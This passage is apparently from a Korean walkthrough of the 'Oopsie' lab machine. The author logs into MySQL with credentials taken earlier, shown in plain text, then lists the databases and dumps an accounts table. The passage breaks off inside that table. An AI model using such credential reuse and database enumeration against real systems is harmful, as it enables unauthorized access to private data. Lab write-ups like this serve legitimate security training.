 획득한 계정 정보를 통해 mysql에 접속해보자. 우선 netstat로 구동 중인 port를 확인하고 로그인하면 된다.
``` bash
robert@oopsie:/$ netstat -nap | grep sql
netstat -nap | grep sql
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     22247    -                    /var/run/mysqld/mysqld.sock

robert@oopsie:/$ mysql -u robert -p -h localhost -P 22247
mysql -u robert -p -h localhost -P 22247
Enter password: M3g4C0rpUs3r!

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 54
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

db 접속 후 획득 가능한 정보는 아래와 같다. 중요 정보는 없는 듯하다.
``` bash
mysql> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| garage             |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use garage
use garage
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
show tables;
+------------------+
| Tables_in_garage |
+------------------+
| accounts         |
| branding         |
| clients          |
+------------------+
3 rows in set (0.00 sec)

mysql> select * from accounts;
+------+--------+-------------+-------------------------+
| id   | access | name        | email                   |
+------+--------+-------------+-------------------------+
|   13 |  57633 | Peter       | peter@qpic.co.uk        |
```